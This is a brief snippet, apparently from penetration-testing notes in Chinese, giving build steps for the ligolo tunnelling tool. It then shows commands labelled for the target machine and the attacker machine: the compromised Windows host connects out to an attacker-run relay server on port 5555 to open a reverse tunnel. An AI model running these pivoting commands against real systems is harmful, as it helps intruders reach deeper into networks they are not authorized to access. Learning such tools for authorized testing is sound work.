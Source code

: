 	>cd `go env GOPATH`/src
	>git clone https://github.com/sysdream/ligolo
	>cd ligolo
	>make dep
	生成证书
	>make certs TLS_HOST=example.com

	>make build-all

	靶机执行
	>ligolo_windows_amd64.exe -relayserver LOCALRELAYSERVER:5555
	攻击机执行
	>./bin/localrelay_linux_amd64